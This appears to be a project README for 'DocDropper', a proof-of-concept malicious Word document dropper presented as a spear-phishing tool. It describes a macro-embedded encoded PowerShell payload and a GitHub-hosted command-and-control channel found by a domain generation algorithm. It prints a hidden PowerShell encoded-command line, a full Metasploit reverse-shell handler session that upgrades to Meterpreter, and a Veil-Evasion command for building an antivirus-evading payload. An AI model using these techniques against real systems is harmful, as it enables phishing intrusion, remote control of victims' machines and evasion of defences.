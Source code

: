 # DocDropper

## Reboot Spear Phishing

#### Notice

DocDropper (POC+) is a .doc file dropper. You can start from it to setup Meterpreter, Empire, etc.

Indeed, DocDropper use a PowerShell Dynamic Generation Algorithm (DGA) to find a C&C hosted on Github.com.

* Begin by `./dropper/vector.payload.ps1` is the encoded payload in the active Macro.

* Next, `./stub/pwn.ps1` is the main payload to execute during infection.


```
powershell.exe -ExecutionPolicy Bypass -WindowStyle hidden -encodedCommand [code]
```

## Reminder

#### Cmd.exe to Meterpreter

```
msf > use exploit/multi/handler 
msf exploit(handler) > set payload windows/shell/reverse_tcp
payload => windows/shell/reverse_tcp
msf exploit(handler) > set LHOST 192.168.0.21
LHOST => 192.168.0.21
msf exploit(handler) > exploit -j
[*] Exploit running as background job.

[*] Started reverse handler on 192.168.0.21:4444 
[*] Starting the payload handler...
msf exploit(handler) > [*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (267 bytes) to 192.168.0.19
[*] Command shell session 1 opened (192.168.0.21:4444 -> 192.168.0.19:59134) at 2015-10-29 22:35:53 +0100

msf exploit(handler) > sessions -l

Active sessions
===============

  Id  Type           Information  Connection
  --  ----           -----------  ----------
  1   shell windows               192.168.0.21:4444 -> 192.168.0.19:59134 (192.168.0.19)

msf exploit(handler) > sessions -u 1
[*] Executing 'post/multi/manage/shell_to_meterpreter' on session(s): [1]

[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse handler on 192.168.0.21:4433 
[*] Starting the payload handler...
[-] Powershell is not installed on the target.
[*] Command stager progress: 1.66% (1699/102108 bytes)
[*] Command stager progress: 3.33% (3398/102108 bytes)
[...]
[*] Command stager progress: 99.78% (101888/102108 bytes)
[*] Command stager progress: 100.00% (102108/102108 bytes)
```

#### Veil-Evasion Meterpreter

```
veil-evasion -p c/meterpreter/rev_tcp -c LHOST=192.168.0.21 LPORT=4444
```
